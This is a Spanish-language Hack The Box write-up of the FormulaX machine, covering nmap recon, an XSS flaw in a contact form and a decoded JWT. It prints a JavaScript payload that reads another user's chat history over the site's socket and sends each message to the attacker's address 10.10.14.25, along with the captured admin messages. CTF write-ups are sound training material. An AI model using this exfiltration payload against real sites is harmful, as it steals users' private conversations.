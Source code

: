 ```yaml
---
layout: single
title: FormulaX - Hack The Box
excerpt: "Descripcion"
date: 2024-03-10
classes: wide
header:
  teaser: assets/images/htb-writeup-formulax/logo.PNG
  teaser_home_page: true
  icon: assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Box
  - mongoDB
  - xss
  - csrf
---
```


![](../assets/images/htb-writeup-formulax/FormulaXTeaser.png)

**RECON**

**PORTS SCAN**

```ruby
sudo nmap -p- -sS --open --min-rate 5000 -Pn -n -vvv 10.129.188.227 -oG allPorts
[sudo] password for anonimo: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:55 CET
Initiating SYN Stealth Scan at 12:55
Scanning 10.129.188.227 [65535 ports]
Discovered open port 22/tcp on 10.129.188.227
Discovered open port 80/tcp on 10.129.188.227
Completed SYN Stealth Scan at 12:55, 14.58s elapsed (65535 total ports)
Nmap scan report for 10.129.188.227
Host is up, received user-set (0.11s latency).
Scanned at 2024-03-10 12:55:40 CET for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 14.72 seconds
           Raw packets sent: 72314 (3.182MB) | Rcvd: 71754 (2.870MB)
```

**SERVICE AND VERSION SCAN**

```ruby

❯ sudo nmap -p22,80 -sCV 10.129.188.227 -oN target
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-10 12:58 CET
Nmap scan report for 10.129.188.227
Host is up (0.11s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 5f:b2:cd:54:e4:47:d1:0e:9e:81:35:92:3c:d6:a3:cb (ECDSA)
|_  256 b9:f0:0d:dc:05:7b:fa:fb:91:e6:d0:b4:59:e6:db:88 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-cors: GET POST
| http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_Requested resource was /static/index.html
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.95 seconds

```

Nada Inusual hmm.... Como podemos ver, tenemos el puerto 80 abierto, en este caso corresponde hacer la revisión de lo que está publicado en dicho puerto.
Nos redirige a un formulario login con opcion de registrarnos:
![](../assets/images/htb-writeup-formulax/register1.PNG)

Por encima ver que tenemos la capacidad de interactur con un bot...
![](../assets/images/htb-writeup-formulax/home.PNG)

Al parecer el serivicio no esta activo pero aun asi podemos ejecutar el comando "help" el cual nos muestra los comandos activos:
```"history -- Shows the Previous Sent"```
![](../assets/images/htb-writeup-formulax/chat1.PNG)

Parece interesante pero vamos a continuar con la enumeracion...
![](../assets/images/htb-writeup-formulax/contact1.PNG)

Hmm un formulario, vamos a ver si realmente hace algo por detras.
![](../assets/images/htb-writeup-formulax/contact2.PNG)

Ouu...Parece vulnerable a xss, interesante sigamos enumerando:
![](../assets/images/htb-writeup-formulax/xss1.PNG)

Parece que la cookie es una API key para sean mas seguras las peticiones con la API...

```json
{
"alg":"HS256",
"typ":"JWT"
}
{
"userID"=:"65eda379658edff97d460d42",
"iat":1710072703
}json

Si seguimos enumerando podemos ver que hay un archivo chat.js, en este podemos ver que esta haciendo conexiones socket para conectarse a los chats. hmm..
Espera.. y si utilizamos las funciones para ver chats de otros ususarios?

Si hacemos cremos este archivo .js utilizando las funciones para que nos rediriga los mensages puede que nos de algo, vamos a probarlo:

```javascript
let value;
const res = axios.get(`/user/api/chat`);
const socket = io('/',{withCredentials: true});

const typing_chat_2 = () => {
  value = "history"
  if (value) {
    // sending the  messages to the server
    socket.emit('client_message', value)
    Show_messages_on_screen_of_Client(value);
    // here we will do out socket things..
    document.getElementById('user_message').value = ""
  }
  else {
    alert("Cannot send Empty Messages");
  }
}

socket.on('message', (my_message) => {

  //console.log("Received From Server: " + my_message)
  fetch("http://10.10.14.25/?" + my_message );

})

typing_chat_2()
```

Vamoss..Tenemos lo que parece el historial de algun chat!!

![](../assets/images/htb-writeup-formulax/xss2.PNG)
```
"OPTIONS /?Hello, I am Admin.Testing the Chat Application HTTP/1.1" 200 -
"OPTIONS /?Write a script for  dev-git-auto-update.chatbot.htb to work properly HTTP/1.1" 200 -
"OPTIONS /?Write a script to automate the auto-update
```
Un subdominio? eso parece.. vamos a echar un vistazo
